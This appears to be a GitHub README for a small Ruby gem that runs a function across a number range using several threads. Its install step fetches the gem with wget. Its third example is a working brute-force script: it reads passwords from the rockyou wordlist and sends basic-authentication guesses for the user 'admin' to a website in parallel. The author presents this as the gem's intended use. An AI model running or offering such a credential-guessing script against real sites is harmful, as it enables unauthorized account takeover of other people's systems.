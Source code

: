 # ruby-gems
Ruby Gems
Repo of Gems I have built to host locally for installs.
if you see bugs pls let me know.


## Itorator


### Install
```
wget "https://github.com/rschwass/ruby-gems/raw/master/iterator-0.0.0.gem"
gem install iterator-0.0.0.gem
```

### Usage
Takes 4 parameters, start number, end number, thread number, "function name".
In the blow example (0, 100, 5, "attack")

#### Example 1
I am saying start at 0, end at 100, using 5 threads execute the "attack" function. The class returns the current number (as a string class)to the function.

```
require 'iterator'

def attack(number)
  puts "number"
end

Iterator.new.begin(0, 100, 5, "attack")
```

#### Example 2
In this example we can read a file line by line, but by specifying the line at each read, we can use a multi-threaded approach.
```
require 'rio'
require 'iterator'

$work_file = '/opt/wordlists/rockyou.txt'
line_total = File.foreach($work_file).count


def example2(x)
  x=x.to_i
  puts (rio($work_file).lines[x..x].join.strip())
end


Iterator.new.begin(0, line_total, 5, "example2")
```
#### Example 3
This very basic example is where it all comes together, in the way I utilize the gem as intended.
I iterate over a file and use it to brute force basic authentication on a website.


```
require 'rio'
require 'iterator'
require 'net/http'
require 'uri'

$work_file = '/opt/wordlists/rockyou.txt'
line_total = File.foreach($work_file).count 


def example3(x)
  x=x.to_i
  password=(rio($work_file).lines[x..x].join.strip())

  uri = URI.parse("http://somesite.com")
  request = Net::HTTP::Get.new(uri)
  request.basic_auth("admin", "#{password}")

  req_options = {
    use_ssl: uri.scheme == "https",
  }

  response = Net::HTTP.start(uri.hostname, uri.port, req_options) do |http|
    http.request(request)
  end

  puts response.code
  # response.body
end

Iterator.new.begin(0, line_total, 5, "example3")
```
